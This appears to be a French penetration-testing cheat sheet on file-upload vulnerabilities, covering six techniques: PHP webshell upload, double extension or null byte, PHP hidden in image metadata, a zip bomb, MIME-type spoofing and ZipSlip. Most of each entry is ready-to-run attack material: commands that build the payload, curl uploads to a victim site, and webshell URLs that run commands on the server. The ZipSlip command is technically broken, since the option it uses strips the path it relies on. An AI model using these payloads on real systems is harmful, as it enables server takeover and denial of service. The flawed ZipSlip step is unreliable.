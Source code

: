 1. Téléversement de fichier exécutable (webshell)  
   - Payload d’attaque neutre (exemple brut) : Générer un fichier shell.php contenant le code `<?php system($_GET['cmd']); ?>` avec la commande echo "<?php system(\$_GET['cmd']); ?>" > shell.php  
   - Commande d’attaque (exemple complet) : curl -X POST -F "file=@shell.php" https://site-victime.net/upload  
   - Commande d’analyse (exemple complet) : Accéder à https://site-victime.net/uploads/shell.php?cmd=id ou utiliser curl https://site-victime.net/uploads/shell.php?cmd=id pour vérifier si la commande est exécutée côté serveur  
   - Élément d’analyse détaillé : Vérifier si le serveur exécute le fichier téléchargé, permettant l’exécution de commandes arbitraires ou la prise de contrôle du serveur  
   - Méthodologie détaillée de découverte : Générer un webshell, le téléverser, puis accéder à son URL pour observer s’il est interprété ou simplement stocké[4][5][8]  
   - Source : https://portswigger.net/web-security/file-upload

2. Téléversement de fichier avec double extension ou null byte  
   - Payload d’attaque neutre (exemple brut) : Générer un fichier shell.php.jpg contenant le code `<?php system($_GET['cmd']); ?>` avec la commande echo "<?php system(\$_GET['cmd']); ?>" > shell.php.jpg  
   - Commande d’attaque (exemple complet) : curl -X POST -F "file=@shell.php.jpg" https://site-victime.net/upload  
   - Commande d’analyse (exemple complet) : Tester https://site-victime.net/uploads/shell.php.jpg?cmd=id ou https://site-victime.net/uploads/shell.php%00.jpg?cmd=id pour voir si le serveur interprète le fichier comme script  
   - Élément d’analyse détaillé : Vérifier si le serveur ne contrôle que l’extension ou le type MIME côté client, permettant le contournement avec des extensions doubles ou des caractères spéciaux  
   - Méthodologie détaillée de découverte : Générer un fichier avec double extension ou null byte, l’uploader, puis tester si le serveur l’interprète comme script ou fichier statique[4][5][6]  
   - Source : https://portswigger.net/web-security/file-upload

3. Téléversement de fichier contenant du code malicieux dans les métadonnées  
   - Payload d’attaque neutre (exemple brut) : Générer une image test.jpg puis injecter `<?php system($_GET['cmd']); ?>` dans les métadonnées avec exiftool -Comment='<?php system($_GET["cmd"]); ?>' test.jpg  
   - Commande d’attaque (exemple complet) : curl -X POST -F "file=@test.jpg" https://site-victime.net/upload  
   - Commande d’analyse (exemple complet) : Accéder à https://site-victime.net/uploads/test.jpg ou utiliser exiftool test.jpg pour vérifier si le code malicieux est stocké ou exploité  
   - Élément d’analyse détaillé : Vérifier si le serveur ou une fonctionnalité ultérieure traite ou exécute les métadonnées du fichier, permettant une attaque indirecte  
   - Méthodologie détaillée de découverte : Générer une image avec code malicieux dans les métadonnées, l’uploader, puis observer si ces métadonnées sont exploitées ou exécutées par l’application ou un utilisateur[4][5]  
   - Source : https://portswigger.net/web-security/file-upload

4. Téléversement de fichier volumineux ou zip bomb  
   - Payload d’attaque neutre (exemple brut) : Générer une zip bomb avec la commande python -c "f=open('bomb.txt','w');f.write('0'*100000000);f.close(); import zipfile; z=zipfile.ZipFile('bomb.zip','w'); z.write('bomb.txt')"  
   - Commande d’attaque (exemple complet) : curl -X POST -F "file=@bomb.zip" https://site-victime.net/upload  
   - Commande d’analyse (exemple complet) : Surveiller le comportement du serveur après l’upload (ralentissement, crash, erreur 500) ou consulter les logs système  
   - Élément d’analyse détaillé : Vérifier si le serveur traite ou extrait les fichiers sans limite de taille, pouvant entraîner un déni de service ou une saturation disque  
   - Méthodologie détaillée de découverte : Générer une zip bomb, l’uploader, puis observer la stabilité de l’application, la consommation de ressources et les logs après l’upload[4]  
   - Source : https://portswigger.net/web-security/file-upload

5. Téléversement de fichier avec contournement du contrôle MIME  
   - Payload d’attaque neutre (exemple brut) : Générer un fichier shell.php contenant du code PHP puis forcer le type MIME à image/jpeg lors de l’upload  
   - Commande d’attaque (exemple complet) : curl -X POST -F "file=@shell.php;type=image/jpeg" https://site-victime.net/upload  
   - Commande d’analyse (exemple complet) : Accéder à https://site-victime.net/uploads/shell.php?cmd=id ou vérifier si le fichier est listé comme image mais exécuté comme script  
   - Élément d’analyse détaillé : Vérifier si le serveur se fie uniquement au type MIME déclaré par le client, permettant l’upload de fichiers dangereux déguisés  
   - Méthodologie détaillée de découverte : Générer un fichier exécutable, modifier le type MIME lors de l’upload, puis tester son exécution ou son affichage dans l’application[4][5]  
   - Source : https://portswigger.net/web-security/file-upload

6. Téléversement avec path traversal ou ZipSlip  
   - Payload d’attaque neutre (exemple brut) : Générer une archive ZIP contenant un fichier ../shell.php avec zip --junk-paths evil.zip ../shell.php  
   - Commande d’attaque (exemple complet) : curl -X POST -F "file=@evil.zip" https://site-victime.net/upload  
   - Commande d’analyse (exemple complet) : Tenter d’accéder à https://site-victime.net/shell.php ou https://site-victime.net/config.php pour vérifier si le fichier a été extrait hors du dossier prévu  
   - Élément d’analyse détaillé : Vérifier si le serveur est vulnérable à la traversée de répertoires lors de la décompression d’archives, permettant d’écraser ou créer des fichiers à des emplacements arbitraires  
   - Méthodologie détaillée de découverte : Générer une archive ZIP avec des chemins relatifs, l’uploader, puis tenter d’accéder aux fichiers hors du répertoire d’upload ou vérifier si des fichiers critiques ont été écrasés[3][4]  
   - Source : https://portswigger.net/web-security/file-upload

---
